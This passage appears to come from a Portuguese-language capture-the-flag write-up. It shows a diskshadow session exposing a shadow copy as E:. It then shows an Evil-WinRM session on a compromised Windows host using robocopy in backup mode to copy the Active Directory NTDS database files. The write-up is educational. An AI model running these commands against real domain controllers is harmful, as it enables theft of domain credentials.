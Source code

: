```powershell
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {6a071b99-3cb2-4898-90b4-6872aadfe397}
The shadow copy was successfully exposed as E:\.
-> end backup
->
```

Logo em seguida, podemos ir para algum diretório e fazer a cópia usando **robocopy**.

```powershell
*Evil-WinRM* PS C:\Temp> ls

    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/20/2024   8:07 PM            191 diskshadow.txt

*Evil-WinRM* PS C:\Temp> robocopy /b E:\Windows\ntds .

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Saturday, January 20, 2024 8:32:25 PM
   Source : E:\Windows\ntds\
     Dest : C:\Temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           9    E:\Windows\ntds\
          *EXTRA File                191        diskshadow.txt
            New File                8192        edb.chk
  0%
100%
            New File              10.0 m        edb.log
  0.0%
  0.6%
  1.2%
  1.8%
  2.5%
  
{...} Muitas Linhas

*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/20/2024   8:07 PM            191 diskshadow.txt
-a----        1/20/2024   8:07 PM           8192 edb.chk
-a----        1/20/2024   8:07 PM       10485760 edb.log
-a----        2/23/2020   9:41 AM       10485760 edb00004.log
```